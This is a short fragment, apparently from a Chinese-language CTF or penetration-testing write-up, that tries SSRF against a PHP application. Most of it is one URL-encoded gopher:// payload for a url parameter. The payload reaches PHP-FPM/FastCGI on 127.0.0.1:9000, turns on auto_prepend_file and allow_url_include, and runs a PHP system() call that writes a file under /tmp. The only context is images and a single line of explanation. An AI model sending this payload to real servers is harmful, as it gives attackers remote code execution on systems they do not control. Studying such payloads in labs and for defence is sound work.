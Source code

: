 ![img](assets/cULUcBd.png)



在php尝试一下SSRF

```sh
?url=
gopher%3A%2f%2f127.0.0.1%3A9000%2f_%2501%2501%255E%2594%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%255E%2594%2501%25E7%2500%2500%250E%2502CONTENT_LENGTH50%250C%2510CONTENT_TYPEapplication%2ftext%250B%2504REMOTE_PORT9985%250B%2509SERVER_NAMElocalhost%2511%250BGATEWAY_INTERFACEFastCGI%2f1.0%250F%250ESERVER_SOFTWAREphp%2ffcgiclient%250B%2509REMOTE_ADDR127.0.0.1%250F%251BSCRIPT_FILENAME%2fusr%2flocal%2flib%2fphp%2fPEAR.php%250B%251BSCRIPT_NAME%2fusr%2flocal%2flib%2fphp%2fPEAR.php%2509%251FPHP_VALUEauto_prepend_file%2520%253D%2520php%253A%2f%2finput%250E%2504REQUEST_METHODPOST%250B%2502SERVER_PORT80%250F%2508SERVER_PROTOCOLHTTP%2f1.1%250C%2500QUERY_STRING%250F%2516PHP_ADMIN_VALUEallow_url_include%2520%253D%2520On%250D%2501DOCUMENT_ROOT%2f%250B%2509SERVER_ADDR127.0.0.1%250B%251BREQUEST_URI%2fusr%2flocal%2flib%2fphp%2fPEAR.php%2501%2504%255E%2594%2500%2500%2500%2500%2501%2505%255E%2594%25002%2500%2500%253C%253Fphp%2520system%2528%2527echo%2520sectest%2520%253E%2520%2ftmp%2f1.php%2527%2529%253B%2520exit%253B%253F%253E%2501%2505%255E%2594%2500%2500%2500%2500
```



![img](assets/QOyUnuT.png)
